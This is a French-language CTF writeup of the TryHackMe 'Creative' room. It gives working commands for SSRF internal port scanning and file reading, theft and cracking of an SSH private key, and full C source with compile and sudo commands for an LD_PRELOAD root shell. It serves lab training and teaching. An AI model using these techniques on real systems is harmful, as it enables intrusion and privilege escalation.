 ```yaml
---
date: 2024-04-17T22:14:41-05:00
# description: ""
image: "/images/THM-Creative/Creative.svg"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: Creative"
type: "post"
---
```


* Platform: TryHackMe
* Link: [Creative](https://tryhackme.com/r/room/creative)
* Level: Easy
* OS: Linux
---

* Platforme: TryHackMe
* Lien: [Creative](https://tryhackme.com/r/room/creative)
* Niveau: Facile
* OS: Linux
---

Ce défi commence par un site web statique qui n'est pas exploitable. L'énumération des sous-domaines permet de découvrir une application de test d'URL vulnérable au SSRF. Cependant, l'exploitation complète n'est possible qu'après la découverte d'un port exposé en interne. Cet accès permet de lire des fichiers sur le serveur, ce qui conduit à la récupération d'une clé privée SSH. Mais cela ne suffit pas pour établir un point d'ancrage. Une fois la clé SSH obtenue, le hash est craqué, donnant accès au système cible. Enfin, une élévation de privilèges est réalisée en exploitant la variable d'environnement `LD_PRELOAD`.

Adresse IP cible - `10.10.119.61`

## Scanning 

```
nmap -sC -sV -oA nmap/Creative 10.10.119.61
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 20:52 CDT
Nmap scan report for 10.10.119.61
Host is up (0.27s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds
```

Nous avons deux ports ouverts, 22 (SSH) et 80 (Nginx). Nous sommes redirigés vers `http://creative.thm`.

```
sudo echo "10.10.119.61 creative.thm" | sudo tee -a /etc/hosts
```

## Enumération

Le site web semble plutôt simple, sans aucun élément exploitable. 

L'énumération des répertoires et l'examen du code source ne donnent rien.

En utilisant ffuf pour l'énumération des sous-domaines, nous trouvons `beta`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fc 404 -t 100 -u http://creative.thm -H "Host: FUZZ.creative.thm" -ic -fs 178
```

![Beta subdomain found](/images/THM-Creative/beta-subdomain.png)

Après l'avoir ajouté au fichier `/etc/hosts`, nous le visitons et il s'avère être un testeur d'URL.

![URL tester website](/images/THM-Creative/beta-url-tester.png)

En soumettant `http://127.0.0.1:80`, on retrouve le contenu de la page principale sans le style, ce qui fait penser à SSRF.

![URL tester SSRF 1](/images/THM-Creative/url-test.png)

Une tentative avec l'url `http://creative.thm/etc/passwd` ne fonctionne pas et renvoie `Dead`.

![File read attempt failed](/images/THM-Creative/file-read-fail.png)

### Balayage des ports internes via SSRF

Essayons de découvrir les ports internes ouverts sur la cible.

```
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

![Internal ports fuzzing](/images/THM-Creative/ffuf-cmd.png)

Le port `1337` est découvert, en soumettant `http://127.0.0.1:1337/` nous pouvons lister les répertoires sur le serveur.

![Directories on the server](/images/THM-Creative/server-directories.png)

Avec Burp, nous explorons le système de fichiers et examinons ce que nous pouvons y trouver. Allons dans `/home`.

![Home directory via SSRF](/images/THM-Creative/home-dir.png)

Dans `/home` nous trouvons un répertoire pour `saad`. En allant plus loin avec `http://127.0.0.1:1337/home/saad/` nous découvrons le dossier `.shh` et le drapeau de l'utilisateur `user.txt`. 

Il suffit d'utiliser `http://127.0.0.1:1337/home/saad/user.txt` pour révéler le premier drapeau.

## Accès Initial

En soumettant `http://127.0.0.1:1337/home/saad/.ssh/id_rsa` nous pouvons récupérer la clé SSH de l'utilisateur.

![saad user SSH key](/images/THM-Creative/saad-ssh-key.png)

> N'oubliez pas de configurer les permissions correctes sur la clé avec `chmod 600`.

La tentative de connexion via SSH échoue parce que nous avons besoin de la phrase secrète de l'utilisateur.

```
ssh saad@creative.thm -i id_rsa
```
![SSH login failed](/images/THM-Creative/ssh-fail.png)

Nous pouvons utiliser `john` pour la trouver en convertissant la clé en un hash craquable.

```
ssh2john id_rsa > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Hash cracking to recover passphrase](/images/THM-Creative/passphrase.png)

Elle est trouvée et nous pouvons maintenant nous connecter.

![Initial foothold via SSH login](/images/THM-Creative/foothold.png)

## Elévation de Privilèges

Une des choses que nous devrions toujours vérifier est le fichier `.bash_history`. Il révèle le mot de passe du compte `saad`.

![Account password recovered](/images/THM-Creative/system-password.png)

Avec ce mot de passe, nous pouvons lancer `sudo -l`. L'utilisateur est capable de lancer `/usr/bin/ping` en tant que root.

![Sudo -l command](/images/THM-Creative/sudo-l.png)

Il n'y a pas grand chose à faire avec `ping`. Nous pourrions essayer de remplacer le binaire par un binaire malveillant si nous avions les droits d'écriture sur `/usr/bin/` mais ce n'est pas le cas, tous les fichiers appartiennent à root.

![Ping binary permissions](/images/THM-Creative/ping-binary.png)

Notre prochaine piste est la variable d'environnement `LD_PRELOAD`.

> La mention `env_keep+=LD_PRELOAD` dans la configuration sudo suggère que `saad` est autorisé à préserver la variable d'environnement `LD_PRELOAD` lors de l'exécution des commandes sudo. Cela pourrait potentiellement être utilisé pour charger des bibliothèques partagées malveillantes.


`LD_PRELOAD` est une variable d'environnement sous Linux et d'autres systèmes d'exploitation de type Unix. Elle permet à l'utilisateur de spécifier une liste de bibliothèques partagées supplémentaires à précharger avant toutes les autres lors de l'exécution d'un programme.

Un excellent article sur `Linux Privilege Escalation using LD_Preload` est disponible [ici](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). 

1. Nous créons un fichier `shell.c` dans `/tmp`

```
cd /tmp
nano shell.c 
```

Ci-dessous le contenu de mon fichier, j'ai modifié celui de l'article qui me posait des problèmes lors de la compilation.

```C
#include <stdio.h>
#include <unistd.h> // Include this header for setuid() and setgid() functions
#include <stdlib.h>

void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

2. Nous compilons et lions `shell.c` dans une bibliothèque partagée nommée `shell.so`

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![Shared library permissions](/images/THM-Creative/shared-library.png)

3. Enfin, nous exécutons la commande `ping` avec la variable d'environnement `LD_PRELOAD` fixée à `/tmp/shell.so` et nous accédons à root.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

![Privilege escalation and root flag](/images/THM-Creative/root-flag.png)

Ce challenge était assez simple, montrant comment une vulnérabilité peut conduire à une chaîne d'exploitation. Il a également mis en évidence la façon dont les mauvaises configurations peuvent être utilisées à l'avantage d'un attaquant. En attendant le prochain, continuez à apprendre!
